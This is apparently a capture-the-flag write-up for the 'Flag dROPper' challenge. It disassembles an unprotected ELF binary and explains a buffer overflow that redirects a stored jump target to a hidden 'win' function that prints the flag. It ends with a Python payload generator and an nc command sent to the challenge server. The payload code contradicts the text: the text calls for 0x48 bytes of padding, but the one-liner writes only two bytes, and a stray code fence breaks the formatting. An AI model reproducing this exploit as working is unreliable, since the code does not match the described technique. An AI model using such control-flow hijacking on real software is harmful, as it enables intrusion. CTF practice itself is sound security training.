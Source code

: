 # Flag dROPper

The challenge provided an ELF executable that prints some text and waits for user input.

```
$ ./flagDropper
Welcome to the Flag Dropper!
Make sure to catch the flag when its dropped!
1,
2,
3,
CATCH
f
```

The ```checksec``` command in ```gef``` yelds a simple binary without relevant security measures
```
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Disassembling the binary yelds a function with several syscalls and a ```JMP```.
```
0000000000400540 <main>:
  400540:       55                      push   rbp
  400541:       48 89 e5                mov    rbp,rsp
  400544:       b8 01 00 00 00          mov    eax,0x1
  400549:       bf 01 00 00 00          mov    edi,0x1
  40054e:       48 be 38 10 60 00 00    movabs rsi,0x601038
  400555:       00 00 00
  400558:       ba 4b 00 00 00          mov    edx,0x4b
  40055d:       0f 05                   syscall
  40055f:       b8 01 00 00 00          mov    eax,0x1
  400564:       bf 01 00 00 00          mov    edi,0x1
  400569:       48 be 84 10 60 00 00    movabs rsi,0x601084
  400570:       00 00 00
  400573:       ba 11 00 00 00          mov    edx,0x11
  400578:       0f 05                   syscall
  40057a:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  400581:       00
  400582:       48 83 c0 48             add    rax,0x48
  400586:       c7 00 d0 05 40 00       mov    DWORD PTR [rax],0x4005d0
  40058c:       b8 00 00 00 00          mov    eax,0x0
  400591:       bf 00 00 00 00          mov    edi,0x0
  400596:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  40059d:       00 00 00
  4005a0:       ba c8 00 00 00          mov    edx,0xc8
  4005a5:       0f 05                   syscall
  4005a7:       b8 01 00 00 00          mov    eax,0x1
  4005ac:       bf 01 00 00 00          mov    edi,0x1
  4005b1:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  4005b8:       00 00 00
  4005bb:       ba 40 00 00 00          mov    edx,0x40
  4005c0:       0f 05                   syscall
  4005c2:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  4005c9:       00
  4005ca:       48 83 c0 48             add    rax,0x48
  4005ce:       ff 20                   jmp    QWORD PTR [rax]

00000000004005d0 <_exit>:
  4005d0:       b8 3c 00 00 00          mov    eax,0x3c
  4005d5:       48 31 ff                xor    rdi,rdi
  4005d8:       0f 05                   syscall

00000000004005da <win>:
  4005da:       b8 00 00 00 00          mov    eax,0x0
  4005df:       48 8d 34 25 9d 10 60    lea    rsi,ds:0x60109d
  4005e6:       00
  4005e7:       48 8d 3c 25 94 10 60    lea    rdi,ds:0x601094
  4005ee:       00
  4005ef:       e8 4c fe ff ff          call   400440 <fopen@plt>
  4005f4:       48 89 c2                mov    rdx,rax
  4005f7:       b8 00 00 00 00          mov    eax,0x0
  4005fc:       48 bf 24 11 60 00 00    movabs rdi,0x601124
  400603:       00 00 00
  400606:       be 16 00 00 00          mov    esi,0x16
  40060b:       e8 20 fe ff ff          call   400430 <fgets@plt>
  400610:       bf 01 00 00 00          mov    edi,0x1
  400615:       b8 01 00 00 00          mov    eax,0x1
  40061a:       ba 16 00 00 00          mov    edx,0x16
  40061f:       0f 05                   syscall
  400621:       eb ad                   jmp    4005d0 <_exit>
  400623:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  40062a:       00 00 00
  40062d:       0f 1f 00                nop    DWORD PTR [rax]
```

The ```JMP``` at address ```0x4005ce``` uses the data at the end of the buffer, after byte ```0x48```.
This buffer seems to hold the result of the text provided by the user.
After the ```JMP``` the program exits. Interestingly, there is a label ```win``` after the exit, whichs opens
a file, gets the result, prints the result using a ```syscall``` and then exits. Seems like we have a winner!

Further inspection with ```gdb``` shows that the memory used for the buffer is full of ```0x00``` and ends with ``` 0x4005d0```.
Therefore, without an overflow, the code will jump to the exist section and will terminate the program.

A valid attack would be to provide a payload with ```0x48``` bytes of padding and then ```0x4005da```. 
This would make the code jump to the ```win``` method.

To generate the payload:
```
python3 -c "with open('payload', 'wb') as f: f.write(b'\xaa'+b'\xda')"
```
We only need to write ```0xda``` as the result of the address has the same prefix (```0x4005```)
```

Then send the payload to the server:
```
nc dropper.sdc.tf 1337 < payload
```

which would provide the flag.

